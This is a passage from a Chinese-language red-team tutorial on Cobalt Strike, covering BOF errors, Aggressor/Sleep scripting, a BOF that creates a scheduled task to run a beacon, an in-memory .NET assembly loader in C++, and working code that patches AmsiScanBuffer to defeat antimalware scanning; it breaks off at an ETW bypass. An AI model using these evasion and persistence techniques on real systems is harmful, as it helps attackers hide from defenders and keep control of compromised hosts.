但是从输出结果来看，bof并没有接收到参数，而是显示(null)。所以说，如果要给BOF传递参数，还是得使用CNA脚本的`bof_pack`函数来打包参数，然后使用`beacon_inline_execute`函数来执行BOF




### 3.报错:Unknown symbol '__chkstk'

当你执行bof项目时可能会遇到如下图所示的错误，其根本原因出在你bof的源码上，当你的源代码使用大量的局部变量或数组时，编译器会插入一个`__chkstk`调用来确保有足够的堆栈空间。而在BOF中，由于我们没有完整的C运行时环境，所以这个函数是不存在的




当时我的bof源码定义了个特别大的局部数组，如下代码所示

```cpp
WCHAR output[4096] = {0};
```


为了解决这个问题，应该减少局部变量的大小，使用动态内存分配来创建所需的数组，比如`HeapAlloc`和`HeapFree`，更正后的代码如下：

```cpp
WCHAR *output = (WCHAR *)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 4096 * sizeof(WCHAR));
```


## 参考链接

- http://mp.weixin.qq.com/s?__biz=MzI5NzU0MTc5Mg==&mid=2247484673&idx=1&sn=d1628ed1f77c638ba414185bfeabf8ee&chksm=ecb2cccedbc545d89bd098632be7fb23c273e585a4f2167089b39d483c42deac13b6078ba3b5&scene=126&sessionid=1658057738&key=ffca75888bc216b14d1a0902587e61caf0fefe2cfd31cfccaef08baab2efb4a9952f320749796d966ba2829cd33e4a301cc25916b74879ea9c6bd6de9d2f06ca9beb159028a59e4ce006bc8276b59ee20d18fba2db40dbeccec3351295fad8192f098aee34bfed114a7c0c700ba46bc16f0a9a660f7801c96a668a64fd5a1a7c&ascene=15&uin=MTA3Mzc3OTIzNQ%3D%3D&devicetype=Windows+Server+2016+x64&version=6307001e&lang=zh_CN&session_us=gh_5b8184332bc1&exportkey=AaYcTeWdxPQAKdPy7RMIrxs%3D&acctmode=0&pass_ticket=H5DatfK1H7UD%2FQIL%2B8Md2%2BlWZOBY12u%2F%2FD4TQgyDk5zYF8C5%2BgX4U3zhXOnsq%2BtU&wx_header=0&fontgear=2


# 十二、CNA插件开发

## 简介

Cobalt Strike的Aggressor脚本（.cna文件）是用一种名为Sleep的脚本语言编写的。Sleep语言是一种简洁的、动态类型的、类似Perl和JavaScript的语言，它被设计用来方便地进行脚本编写和快速原型开发


## Sleep语言入门

### 变量

Sleep使用 `$` 符号来定义变量。例如，`$x = 5;` 将变量 `x` 的值设置为5


### 数据类型

Sleep支持多种数据类型，这里主要讲两种，分别是数组(array)和哈希表(hash)

在 Sleep 中，你可以使用 `@` 符号来创建数组。Sleep 还提供了一些函数来操作数组，例如 `push()`（将一个元素添加到数组的末尾）和 `size()`（获取数组的大小）

哈希表（也称为字典或映射）是一种可以存储键值对的数据结构。在 Sleep 中，你可以使用 `%` 符号来创建哈希表

```perl
# 创建一个空的数组
$my_array = @();

# 使用 push 函数将元素添加到数组的末尾
push($my_array, 1);
push($my_array, 2);
push($my_array, 3);

# 使用 size 函数获取数组的大小
$size = size($my_array);  # $size 的值现在是 3

println("Array: " . $my_array);  # 打印出 "Array: @(1, 2, 3)"
println("Size: " . $size);  # 打印出 "Size: 3"

# 创建一个空的哈希表
$my_hash = %();

# 将键值对添加到哈希表
$my_hash['key1'] = 'value1';
$my_hash['key2'] = 'value2';

# 获取哈希表的所有键和所有值
$keys = keys($my_hash);  # $keys 的值现在是 @('key1', 'key2')
$values = values($my_hash);  # $values 的值现在是 @('value1', 'value2')

println("Hash: " . $my_hash);  # 打印出 "Hash: %(key1 => 'value1', key2 => 'value2')"
println("Keys: " . $keys);  # 打印出 "Keys: @('key1', 'key2')"
println("Values: " . $values);  # 打印出 "Values: @('value1', 'value2')"
```


### 遍历操作

1.**遍历数组**：你可以使用 `foreach` 语句来遍历数组，如下所示，这个脚本会打印出数组中的每一个元素

```perl
$my_array = @(1, 2, 3, 4, 5);

foreach $element ($my_array) {
    println("Element: " . $element);
}
```


2.**遍历哈希表**：使用 `foreach` 语句来遍历哈希表。需要注意的是，遍历哈希表时，每一个元素都是一个键值对，如下代码会打印出哈希表种的每一个键和值

```perl
$my_hash = %(key1 => 'value1', key2 => 'value2');

foreach $pair ($my_hash) {
    $key = $pair[0];
    $value = $pair[1];
    println("Key: " . $key . ", Value: " . $value);
}
```


### 函数定义

你可以使用 `sub` 关键字来定义函数，如下代码所示， 在command定义中，$1表示第一个参数；`command`关键字用于定义一个新的命令，当你aggressor命令行输入`MyAdd`加参数，命令的代码就会被执行

```perl
sub add {
    $x = $1;
    $y = $2;
    return $x + $y;
}

command MyAdd{
	$sum = add($1,$2);
	println("result=".$sum);
}
```

	


## aggressor命令行

### 查看帮助

点击`Script Console`打开脚本控制台

	


然后输入help查看命令帮助，我将这些命令及其对应的含义总结在以下表格中了

	

| 命令      | 描述                                                         |
| --------- | ------------------------------------------------------------ |
| `!`       | 执行shell命令。`! ls`将会在你的系统shell中执行`ls`命令       |
| `?`       | 获取关于特定命令的帮助信息。例如，`? load`将会显示有关`load`命令的帮助信息 |
| `e`       | 执行一段Aggressor脚本。例如，`e println('Hello, World!');`将会在命令行中打印出`Hello, World!` |
| `help`    | 获取命令行的帮助信息                                         |
| `history` | 查看命令历史                                                 |
| `load`    | 加载一个Aggressor脚本（.cna文件）                            |
| `ls`      | 列出当前已加载的Aggressor脚本                                |
| `proff`   | 关闭Aggressor的性能分析                                      |
| `profile` | 显示Aggressor的性能分析结果                                  |
| `pron`    | 开启Aggressor的性能分析                                      |
| `reload`  | 重新加载所有已经加载的Aggressor脚本                          |
| `troff`   | 关闭Aggressor的跟踪功能                                      |
| `tron`    | 开启Aggressor的跟踪功能                                      |
| `unload`  | 卸载一个已加载的Aggressor脚本                                |
| `x`       | 用于执行一个表达式并返回结果                                 |


### 加载脚本

在aggressor命令行执行`load`命令加载cna文件，以下是一个简单的字符串输出脚本代码。输入`myprint`，控制台输出“hello world”

```
command myprint{
	println("hello world");
}
```

	


除此之外，在CS的文件目录还有一个`agscript`文件，它用于运行Aggressor脚本（.cna文件）。你可以使用`agscript`来启动一个新的Cobalt Strike客户端，连接到一个Cobalt Strike团队服务器，并运行一个或多个Aggressor脚本，`agscript`的基本用法如下：

```
agscript [options] <host> <port> <user> <pass> <script> [<script> ...]
```

- `<host>`、`<port>`、`<user>`和`<pass>`用于指定要连接的Cobalt Strike团队服务器的详细信息。
- `<script>`参数用于指定要运行的Aggressor脚本。你可以指定一个或多个脚本


例如，你可以使用以下命令来运行一个名为`my_script.cna`的Aggressor脚本。这将会启动一个新的Cobalt Strike客户端，连接到运行在本地（127.0.0.1）的Cobalt Strike团队服务器，然后运行`my_script.cna`脚本

```
agscript 127.0.0.1 50050 myuser mypass my_script.cna
```


### 设置输出字体颜色

在Aggressor脚本中，可以使用 `\c` 跟随一个数字来改变接下来的文本颜色，以下是`\c` 后跟随的数字与颜色的对应关系：

| 默认颜色 | 黑色 | 红色 | 绿色 | 黄色 | 蓝色 | 白色 |
| -------- | ---- | ---- | ---- | ---- | ---- | ---- |
| \c0      | \c1  | \c2  | \c3  | \c4  | \c5  | \c8  |

```perl
println("\c2This text is red.");
println("\c3This text is green.");
println("\c4This text is yellow.");
println("\c0This text is default color.");
```

	


## CNA常用操作

### 绑定快捷键

使用关键字bind来绑定快捷键，以此执行指定的功能，如下代码绑定了快捷键`Ctrl+H`，当按了快捷键后会弹框提示“Hello World！”

```perl
bind Ctrl+H {
	show_message("Hello World!"); # 弹窗
}
```




### 菜单编写

1**.定义菜单**：使用`popup`函数定义一个新的菜单，如下所示，这将定义一个名为`my_menu`的新菜单

```perl
popup my_menu {
    # 菜单项将在这里定义
}
```


2.**添加菜单项** ：在 `popup` 块内部，使用 `item` 函数添加菜单项。如下所示，将在 `my_menu` 菜单中添加两个菜单项，名为 "Menu Item 1" 和 "Menu Item 2"，当这些菜单项被点击时，会在控制台中打印相应的消息

```
popup my_menu {
    item("Menu Item 1", { println("You clicked Menu Item 1"); });
    separator();
    item("Menu Item 2", { println("You clicked Menu Item 2"); });
}
```


3.**添加菜单到菜单栏**：使用 `menubar` 函数将你的菜单添加到 Cobalt Strike 的菜单栏中，这将在菜单栏中添加一个新的菜单，名为 "My Menu"，当你点击这个菜单时，会显示你之前定义的 `my_menu` 菜单

```
popup my_menu {
    item("Menu Item 1", { println("You clicked Menu Item 1"); });
    separator();
    item("Menu Item 2", { println("You clicked Menu Item 2"); });
}

menubar("My Menu", "my_menu");
```




如果你不想在菜单栏上创建新的菜单，而是想在默认的菜单上添加菜单项，例如你想在Help菜单添加菜单项，你可以这样做：

```perl
popup help {
    item("关于作者信息:", { show_message("作者是个大帅哥！") });
	sparator();
}
```




使用`popup`函数并指定`beacon_bottom` 作为参数可以在右键单击 Beacon 会话时添加一个自定义的上下文菜单

```
popup beacon_bottom{item("打开百度", {url_open("https://www.baidu.com"); });}
```




还可以通过menu语句来创建多级菜单，menu语句中还能再嵌套一个menu语句

```perl
popup beacon_bottom { 
    menu "beacon菜单" {
        menu "子菜单一" {
            item("子子菜单一", { show_message("这是子子菜单一"); });
            item("子子菜单二", { show_message("这是子子菜单二"); });
        }
        item("子菜单二", { show_message("这是子菜单二"); });
    }
}
```

	


### 编写对话框

以下代码编写了一个对话框，用于实现数据交互

```perl
# 在Beacon的右键菜单中添加一个新的菜单项 "添加用户",当这个菜单项被点击时，调用 mydialog 子程序。
popup beacon_bottom { item("添加用户", { mydialog(); }); }

# 这是一个回调函数，当对话框关闭时，会被调用。
# 它接收三个参数：对话框的引用，按钮的名称，以及一个包含用户输入的哈希表。
sub callback {
	show_message("用户添加成功!\n"."dialog的引用是：".$1."\n按钮名称是：".$2);
	println("用户名是：".$3["user"]."\n密码是：".$3["password"]."\n用户类型是: ".$3["user_type"]);# 这里callback函数接收到了dialog传递过来的三个参数
}

# 这是一个子程序，用于创建一个对话框，让用户输入用户名和密码。
# 它使用 dialog 函数创建一个对话框，设置了默认值，指定了回调函数。
# 它使用 drow_text 函数添加一个密码输入框。
# 它使用 dbutton_action 函数添加一个动作按钮，当用户点击这个按钮时，会触发回调函数。
# 它使用 dbutton_help 函数添加一个帮助按钮，当用户点击这个按钮时，会打开 http://www.baidu.com 网页。
# 最后，使用 dialog_show 函数显示对话框。
sub mydialog {
	$info = dialog("对话框的标题", %(user => "Administrator", password => ""), &callback); 
	drow_text($info, "user", "输入用户账号"); 
	drow_text($info, "password", "输入用户密码"); 
	drow_combobox($info,"user_type","用户类型",@("普通用户","管理员"));
	dbutton_action($info, "添加用户"); # 点击按钮，触发回调函数
	dbutton_help($info, "http://www.baidu.com"); # 显示帮助信息
	dialog_show($info); # 显示对话框
}
```

	


**以下是编写对话框常用到的一些函数：**	

`dialog` 函数在 Aggressor 脚本中用于创建一个新的对话框，以用来显示消息，获取用户输入，或执行其他与用户交互的任务，基本语法如下(注意，虽然 `dialog` 函数创建了一个对话框，但它并不会立即显示这个对话框。要显示对话框，你需要使用 `dialog_show` 函数)：

```
dialog(<标题>, <默认值>, <回调函数>)
```

- `<标题>` 是一个字符串，用于设置对话框的标题。
- `<默认值>` 是一个哈希表，用于设置对话框中各个字段的默认值。
- `<回调函数>` 是一个函数，当对话框被关闭时，这个函数将被调用，对话框中用户输入的值将作为参数传递给这个函数


`drow_text` 函数用于在对话框中添加一个文本输入框。其基本语法如下

```
drow_text(<对话框>, <字段名>, <提示文本>)
```

这个函数接受三个参数：对话框（通过 `dialog` 函数创建），字段名（用于标识文本输入框），和提示文本（显示在文本输入框旁边的文本


`dbutton_action` 函数用于在对话框中添加一个动作按钮。当用户点击这个按钮时，会触发对话框的回调函数。这个函数接受两个参数：对话框（通过 `dialog` 函数创建）和按钮文本（显示在按钮上的文本）

```
dbutton_action(<对话框>, <按钮文本>)
```


`dbutton_help` 函数用于在对话框中添加一个帮助按钮。当用户点击这个按钮时，会在默认的网页浏览器中打开一个网页。其基本语法是

```
dbutton_help(<对话框>, <网址>)
```


`drow_combobox`函数用于在对话框中添加一个下拉列表（也称为组合框或combobox）。其基本语法如下：

```
drow_combobox($dialog, $key, $label, @options);
```

- `$dialog` 是对话框的引用，通常是通过`dialog`函数创建的。
- `$key` 是一个字符串，用于标识这个下拉列表。当用户在下拉列表中选择一个选项时，这个选项的值会被存储在对话框的数据中，可以通过这个键来访问。
- `$label` 是一个字符串，用于显示在下拉列表旁边的标签。
- `@options` 是一个数组，包含了下拉列表中的所有选项。


### 数据模型

Cobalt Strike的数据模型提供了一组功能，通过这些功能，你可以查询和操作Cobalt Strike中存储的各种数据。这包括目标信息、凭证、下载的文件、键盘记录等。这些功能通过一系列的函数提供，你可以在Aggressor脚本中使用这些函数

以下是一些常用的数据接口：

- **targets**：用于查询和操作Cobalt Strike中存储的目标信息。
- **archives**：用于查询Cobalt Strike最近的活动信息。
- **beacons**：用于查询和操作Cobalt Strike中的Beacon会话。Beacon是Cobalt Strike的一个轻量级恶意软件，可以在受感染的主机上运行，并与团队服务器通信。
- **credentials**：用于查询和操作Cobalt Strike存储的凭证信息。这些凭证可能是攻击者从目标系统上获取的密码、哈希值或Kerberos票据。
- **downloads**：用于查询和操作Cobalt Strike下载的文件。
- **keystrokes**：用于查询Cobalt Strike记录的键盘输入。
- **screenshots**：用于查询Cobalt Strike获取的屏幕截图。
- **sites**：这用于查询和操作Cobalt Strike托管的资产，例如监听器和stagers。
- **servers**：用于查询和操作Cobalt Strike的团队服务器。


如下是使用targets函数查询beacon数据的实例：

- `x targets()`：这个命令返回了一个数组，数组中的每个元素都是一个哈希表，代表了一个目标。哈希表中包含了目标的地址（'address'）、操作系统（'os'）、主机名（'name'）和版本（'version'）。
- `x targets()[0]`：这个命令返回了数组中的第一个元素，也就是第一个目标的信息。
- `x targets()[0]['address']`：这个命令返回了第一个目标的地址。




### Beacon

目标主机上线后，C2会为其分配一个唯一的随机数ID，我们可使用`beacon_ids()`来获取所有会话的ID

```
x beacon_ids()
```

	


获取到会话ID后，可使用`beacon_info()`来获取指定会话的所有数据

```
x beacon_info(beacon_ids()[0])
```




当然你还可以使用`beacons()`来获取所有会话的所有信息




`beacon_initial`是Cobalt Strike的Aggressor脚本中的一个预定义事件。当一个新的Beacon首次上线时，这个事件就会被触发，并返回一个会话ID（`$1`）

如下代码所示, 它会在新的Beacon首次上线时弹出一个消息框，显示Beacon的一些基本信息

```perl
# 当新的Beacon首次上线时
on beacon_initial {
    # 获取Beacon的ID
    $beacon_id = $1;

    # 获取Beacon的一些基本信息
    $user = beacon_info($beacon_id, "user");
    $host = beacon_info($beacon_id, "host");
    $pid = beacon_info($beacon_id, "pid");
    $os = beacon_info($beacon_id, "os");

    # 构造要显示的消息
    $message = "新的Beacon上线！\n\n";
    $message = $message . "User: " . $user . "\n";
    $message = $message . "Host: " . $host . "\n";
    $message = $message . "PID: " . $pid . "\n";
    $message = $message . "OS: " . $os . "\n";

    # 显示消息框
    show_message($message);
}
```




`binput`函数实际上是将字符串发送到Beacon的命令行, 其第一个参数是beacon的ID, 第二个参数是你想要输出至beacon命令行的字符串

```perl
# 当新的Beacon首次上线时
on beacon_initial {
    # 获取Beacon的ID
    $beacon_id = $1;
	
    binput($beacon_id, "有一个beacon上线了");
}
```




`bshell`函数用于在指定的beacon会话执行一个shell命令

```perl
# 当新的Beacon首次上线时
on beacon_initial {
    # 获取Beacon的ID
    $beacon_id = $1;
    binput($beacon_id, bshell(beacon_id,"whoami"));
}
```




## 与BOF联动

### 涉及函数

**`script_resource(path)`**：获取脚本资源的路径，当然不只限于bof(.obj)文件，还可以是exe、cna等等。要注意的是，脚本资源的路径要一定填写相对路径( 相对于cna文件)


**`openf`和`readb`**：打开文件并读取


**`bofpack`**：将参数打包成一个字节流，然后传递给BOF中的go函数，其语法格式如下：

```
bof_pack($beacon_id, "iz", $my_int, $my_string);
```

其中参数2是格式字符串，用于指定参数的类型，这个字符串可以包含以下字符：

- `i`：表示一个32位整数。
- `I`：表示一个64位整数。
- `d`：表示一个双精度浮点数。
- `z`：表示一个以null结尾的字符串。
- `Z`：表示一个以null结尾的宽字符串（即，每个字符由两个字节表示）。


**`beacon_inline_execute`**：用于在指定的Beacon中执行一个BOF，该函数接收四个参数：

- 参数一：Beacon的ID，这是一个整数，表示你想要在哪个Beacon中执行BOF。
- 参数二：BOF的内容，这是一个字节流，通常是你从BOF文件中读取的内容。
- 参数三：BOF中的函数名，这是一个字符串，表示你想要执行的函数。
- 参数四：传递给BOF函数的参数，这是一个字节流，通常是你使用`bof_pack`函数创建的。


**`alias`**：在Cobalt Strike的Aggressor脚本中，`command`和`alias`都是用来定义新的命令的，但它们的使用场景是不同的

`command`函数定义的命令是在Cobalt Strike的脚本控制台中使用的，而`alias`函数定义的命令是在Beacon的命令行中使用的


### 使用案例

#### 1.添加计划任务

如下是aggressor脚本代码：

```perl
# $1 = beacon ID
# $2 = task_name
# $3 = author
# $4 = description
# $5 = command
# $6 = args

alias boftask {
    # 检查参数数量是否正确
    if (size(@_) != 6){
        berror($1,"boftask: args error");
        return;
    }
		
    # 打开BOF文件并读取内容
    local('$handle $data $args'); #定义了三个局部变量
    $handle = openf(script_resource("BofTest.x64.obj"));  # 打开BOF文件
    $data = readb($handle, -1);  # 读取BOF文件的内容
    closef($handle);  # 关闭BOF文件
	
    # 设置参数
    # 使用bof_pack函数将参数打包成一个字节流
    # "ZZZZZ"表示我们有五个宽字符串参数,小写的z表示以null结尾的字符串
    $args = bof_pack($1, "ZZZZZ", $2, $3, $4, $5, $6);
	
    # 执行BOF
    # 使用beacon_inline_execute函数来执行BOF
    # "go"是BOF中的函数名，$args是传递给这个函数的参数
    beacon_inline_execute($1, $data, "go", $args);

    # 向用户通知任务已经开始
    # 使用btask函数在Beacon的控制台中显示一条消息
    btask($1, "Creating scheduled task as $2");
}
```


如下是bof的代码，此处我只给出了go函数的代码：

```cpp
void go(char* buff, int len) {
	
	// datap是BOF框架中定义的结构体，用于解析从Beacon接收到的数据
	// 当你在Beacon执行BOF时，可以向BOF传递一些参数，这些参数会被打包成一个字节流
	// BOF会使用datap结构体来解析这个字节流，从而获取到传递的参数
	datap parser;

	// 设置创建的计划任务的相关信息
	wchar_t* task_name,
		* author,
		* description,
		* command,
		* args;

	// 初始化datap结构体变量(parser),用于解析从Beacon接收到的字节流(buff)
	BeaconDataParse(&parser, buff, len); 

	task_name = (wchar_t*)BeaconDataExtract(&parser, 0); // 提取任务名
	author = (wchar_t*)BeaconDataExtract(&parser, 0); // 提取作者名
	description = (wchar_t*)BeaconDataExtract(&parser, 0); // 提取描述
	command = (wchar_t*)BeaconDataExtract(&parser, 0); // 提取要执行的命令
	args = (wchar_t*)BeaconDataExtract(&parser, 0); // 提取命令的参数

	if (!com_init()) // 初始化COM库
		return;

	if (!task_create(task_name, author, description, command, args)) // 创建计划任务
		
		return;

	CoUninitialize(); // 关闭COM库
}
```


beacon命令行执行：`boftask "test" "henry" "this is bof" "C:\\beacon.exe" ""`	



​	

查看目标主机的计划任务列表可以发现，计划任务成功添加上了




## 参考链接

- https://cloud.tencent.com/developer/article/1785567
- https://www.bilibili.com/video/BV1pU4y1C7xh/?spm_id_from=333.337.search-card.all.click&vd_source=a6caf742912abf241ffbcb3c11933841
- https://maka8ka.cc/post/cobaltstrike-bof%E5%8F%8A%E5%AF%B9%E5%BA%94%E7%9A%84cna%E8%84%9A%E6%9C%AC/

- https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/agressor_script.htm


# 十三、execute-assembly

## 简介

"execute-assembly"是Cobalt Strike的一项功能，它允许你在Cobalt Strike的Beacon控制的目标机器上直接执行.NET程序集（Assembly）。

具体来说，这个功能通过在目标机器的内存中加载.NET程序集并执行它，而不需要将程序集写入到磁盘。这种在内存中执行程序的方法也被称为"文件无（fileless）"攻击，因为它能避免在磁盘上留下可疑的文件，从而绕过某些基于文件扫描的防御手段。

使用"execute-assembly"功能时，你需要提供要执行的.NET程序集的本地路径，然后Cobalt Strike会将这个程序集上传到目标机器的内存中并执行它。你还可以为这个程序集提供命令行参数。

这个功能的一个强大之处在于，.NET程序集可以使用C#编写，而C#提供了对Windows API的广泛访问，这使得你可以在目标机器上执行一系列复杂的操作

不过使用`execute-assembly`时，CobaltStrike创建一个新的进程来加载并执行.NET程序集，这其实可以看作是一种fork&run模式，因为它会“分叉”出一个新的进程来运行.NET程序集，且这种行为十分容易被杀软检测到

这是一个针对`execute-assembly`改良的项目：https://github.com/anthemtotheego/InlineExecute-Assembly

该项目的优点是，它会在beacon的当前进程中加载并执行.NET程序集，而没有创建新的进程，这种方法更加的隐蔽，但是如果.NET程序集出现问题，那么可能会导致整个beacon进程崩溃


## 实现原理

`execute-assembly`功能的实现，必须使用一些来自.NET Framework的核心接口来执行.NET程序集口，分别是分别是`ICLRRuntimeHost`、`ICLRRuntimeInfo`  以及`ICLRMetaHost` ，以下是这三个接口的简要描述

- **ICLRMetaHost**: 这个接口用于在托管代码中获取关于加载的CLR（Common Language Runtime，.NET Framework的核心组件）的信息。基本上，它提供了一个入口点，允许我们枚举加载到进程中的所有CLR版本，并为特定版本的CLR获取`ICLRRuntimeInfo`接口。
- **ICLRRuntimeInfo**: 一旦你有了表示特定CLR版本的`ICLRRuntimeInfo`接口，你可以用它来获取CLR运行时的其他接口，例如`ICLRRuntimeHost`。这个接口还允许你判断这个特定版本的CLR是否已经被加载到进程中。
- **ICLRRuntimeHost**: 这是执行.NET程序集所必需的主要接口。通过这个接口，你可以启动托管代码的执行环境，加载.NET程序集，并执行它。具体来说，它的`ExecuteInDefaultAppDomain`方法可以用来加载和执行.NET程序集。

综上所述，要在非托管代码（如C++）中执行.NET程序集，你需要首先使用`ICLRMetaHost`来确定哪个CLR版本已加载或可用。然后，你可以使用`ICLRRuntimeInfo`来为这个CLR版本获取`ICLRRuntimeHost`。最后，使用`ICLRRuntimeHost`来加载和执行.NET程序集。


如下代码是一个使用C++编写的Windows程序，用于在内存中加载并执行一个名为`CSharp.exe`的.NET程序集，主要分为以下四个步骤：

1. **加载CLR环境**: 这是整个过程的第一步，因为要运行.NET代码，你需要.NET运行时环境。CLR（Common Language Runtime）是.NET Framework的心脏，它提供了执行.NET代码所需的所有功能。Cobalt Strike首先需要初始化或加载CLR环境以便在其上运行程序集。这通常涉及到确定哪个CLR版本（例如.NET 2.0、4.0等）可用或已加载，并准备它以供使用。
2. **获取程序域**: 在.NET中，应用程序域（AppDomains）是一个轻量级的进程，它提供了运行应用程序的隔离环境。每个.NET应用程序至少有一个默认的应用程序域，但可以创建更多的应用程序域以隔离执行的代码。通过获取程序域，Cobalt Strike可以确保在安全的、隔离的环境中加载并执行程序集。
3. **装载程序集**: 一旦设置了适当的环境并获取了程序域，Cobalt Strike将需要加载（或注入）所需的.NET程序集到这个程序域。这一步涉及到在内存中创建.NET程序集的实例，这样它就可以被执行了。
4. **执行程序集**: 加载程序集后，Cobalt Strike将触发其执行。这通常涉及到调用程序集中的一个特定方法或函数，这个方法可能是程序集的入口点或某个特定的功能函数

```cpp
#include <stdio.h>
#include <tchar.h>
#include <metahost.h>

// 导入 .NET Framework 的 mscorlib 所需的类型库，用于与.NET组件交互
#import "mscorlib.tlb" raw_interfaces_only   
     high_property_prefixes("_get","_put","_putref")  
     rename("ReportEvent", "InteropServices_ReportEvent") 
     rename("or", "InteropServices_or")

using namespace mscorlib;

// 连接到MSCorEE库，它提供了启动CLR的功能
#pragma comment(lib, "MSCorEE.lib")

int _tmain(int argc, _TCHAR* argv[])
{
    // 读取磁盘上的.NET程序集
    HANDLE hFile = CreateFileA("CSharp.exe", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (NULL == hFile) return 0;

    DWORD dwFileSize = GetFileSize(hFile, NULL);
    if (dwFileSize == 0) return 0;

    PVOID dotnetRaw = malloc(dwFileSize);
    memset(dotnetRaw, 0, dwFileSize);
    DWORD dwReturn = 0;
    if (ReadFile(hFile, dotnetRaw, dwFileSize, &dwReturn, NULL) == FALSE) return 0;

    // .NET Framework的接口声明
    ICLRMetaHost* iMetaHost = NULL;
    ICLRRuntimeInfo* iRuntimeInfo = NULL;
    ICorRuntimeHost* iRuntimeHost = NULL;
    IUnknownPtr pAppDomain = NULL;
    _AppDomainPtr pDefaultAppDomain = NULL;
    _AssemblyPtr pAssembly = NULL;
    _MethodInfoPtr pMethodInfo = NULL;
    SAFEARRAYBOUND saBound[1];
    void* pData = NULL;
    VARIANT vRet;
    VARIANT vObj;
    VARIANT vPsa;
    SAFEARRAY* args = NULL;

    // 初始化.NET 4.0运行时
    CLRCreateInstance(CLSID_CLRMetaHost, IID_ICLRMetaHost, (VOID**)&iMetaHost);
    iMetaHost->GetRuntime(L"v4.0.30319", IID_ICLRRuntimeInfo, (VOID**)&iRuntimeInfo);
    iRuntimeInfo->GetInterface(CLSID_CorRuntimeHost, IID_ICorRuntimeHost, (VOID**)&iRuntimeHost);
    iRuntimeHost->Start();

    // 获取默认的程序域
    iRuntimeHost->GetDefaultDomain(&pAppDomain);
    pAppDomain->QueryInterface(__uuidof(_AppDomain), (VOID**)&pDefaultAppDomain);

    // 创建一个安全数组，用于存储.NET程序集
    saBound[0].cElements = dwFileSize;
    saBound[0].lLbound = 0;
    SAFEARRAY* pSafeArray = SafeArrayCreate(VT_UI1, 1, saBound);

    // 将.NET程序集数据复制到安全数组
    SafeArrayAccessData(pSafeArray, &pData);
    memcpy(pData, dotnetRaw, dwFileSize);
    SafeArrayUnaccessData(pSafeArray);

    // 使用默认程序域加载.NET程序集
    pDefaultAppDomain->Load_3(pSafeArray, &pAssembly);

    // 获取程序集的入口点
    pAssembly->get_EntryPoint(&pMethodInfo);

    ZeroMemory(&vRet, sizeof(VARIANT));
    ZeroMemory(&vObj, sizeof(VARIANT));
    vObj.vt = VT_NULL;

    // 设置参数，并调用.NET程序集的入口点方法
    vPsa.vt = (VT_ARRAY | VT_BSTR);
    args = SafeArrayCreateVector(VT_VARIANT, 0, 1);
    if (argc > 1)
    {
        vPsa.parray = SafeArrayCreateVector(VT_BSTR, 0, argc);
        for (long i = 0; i < argc; i++)
        {
            SafeArrayPutElement(vPsa.parray, &i, SysAllocString((OLECHAR*)argv[i]));
        }

        long idx[1] = { 0 };
        SafeArrayPutElement(args, idx, &vPsa);
    }

    pMethodInfo->Invoke_3(vObj, args, &vRet);

    // 释放所有的COM对象
    pMethodInfo->Release();
    pAssembly->Release();
    pDefaultAppDomain->Release();
    iRuntimeInfo->Release();
    iMetaHost->Release();

    CoUninitialize();
    getchar();
    return 0;
};
```


## 简单演示

首先使用VisualStudio创建一个控制台应用(.Net Framework)




如下C#代码用于在控制台输出参数：

```c#
using System;

namespace HelloWorldApp
{
    class Program
    {
        static void Main(string[] args)
        {
            string name;

            if (args.Length > 0)
            {
                name = args[0];
                Console.WriteLine($"你好, {name}!");
            }
            else
            {
                Console.WriteLine("没有提供命令行参数。请输入您的名字:");
                
            }    
        }
    }
}
```


上述代码生成可执行程序后，可在CobaltStrike的beacon命令行使用`execute-assembly`来将其执行




## 检测分析

使用ProcessHacker查看powershell进程可以发现其加载了CLR环境，这是因为PowerShell是基于.NET Framework构建的。

	


查看Powershell的模块调用可发现，它不仅调用了clr.dll，还调用了amsi.dll。

amsi是微软提供的一个接口，旨在允许应用程序和服务与已安装的杀毒或反恶意软件解决方案进行互动，从而提供更好的保护。其中最关键的函数当属AmisiScanBuffer，AmsiScanBuffer函数可以检测内存中的恶意内容，这对于检测那些可能在运行时生成或修改其代码的恶意软件特别有用，例如某些脚本或文件less的恶意软件

不过现在国内大多数杀软都没有集成amsi的功能，而且现在amsi还是相对容易绕过的

	


当我们使用上述github项目的来加载.net程序集时，再通过processexp查看beacon的进程，可以发现在`.NET Assemblies`处还是会有一些敏感信息的，而这些敏感信息被ETW检测出来的

		

	

​	

当`patch etw`后就查看不到任何信息了






`bypass etw`后还是有可能会被amsi检测到的, 这是因为你的beacon进程加载了CLR环境, 这使得要加载进去的.NET程序集更容易受到amsi的检测，也就是说，你还得将amsi也bypass掉

		


## Amsi和Etw的bypass		

如下bof代码用于实现绕过amsi检测，实现原理是将amsi.dll里的关键函数`AmsiScanBuffer`给ret掉

```cpp
void go(char* buff, int len) {

	HMODULE hAmsi = LoadLibraryA("amsi.dll");
	if (hAmsi == NULL)
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to load amsi.dll");
		return;
	}

	FARPROC pAmsiScanBuffer = GetProcAddress(hAmsi,"AmsiScanBuffer");
	if (pAmsiScanBuffer == NULL)
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to get AmsiScanBuffer address");
		return;
	}

	DWORD oldProtect;
	// 修改AmsiScanBuffer函数的内存保护属性
	if (VirtualProtect(pAmsiScanBuffer, 6, PAGE_EXECUTE_READWRITE, &oldProtect))
	{
		// 准备新的硬编码
		unsigned char patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
		
		// 将新的函数字节码复制到AmsiScanBuffer函数的地址
		memcpy(pAmsiScanBuffer, patch, sizeof(patch));
		BeaconPrintf(CALLBACK_OUTPUT, "Amsi Patch Success!");
	}
	else
	{
		BeaconPrintf(CALLBACK_ERROR, "Failed to change memory protection");
	}

}
```

上述代码提到的硬编码 `{ 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }` 对应的汇编指令如下:

```
B8 57 00 07 80    mov eax, 0x80070057
C3                ret
```

他将立即数值`0x80070057`移动到`eax`寄存器中。这个值是一个常见的Windows错误代码，表示“参数错误”

总的来说, 这段代码的目的是将一个特定的错误代码放入`eax`寄存器，并立即返回。这在绕过AMSI的上下文中为了使AMSI的扫描函数始终返回一个表示扫描失败的值



​	

以下代码实现绕过ETW的检测，和bypassAmsi原理一样，这里将ETW的关键函数`EtwEventWrite`给ret掉了

```cpp
void go(char* buff, int len) {

#ifdef _M_AMD64
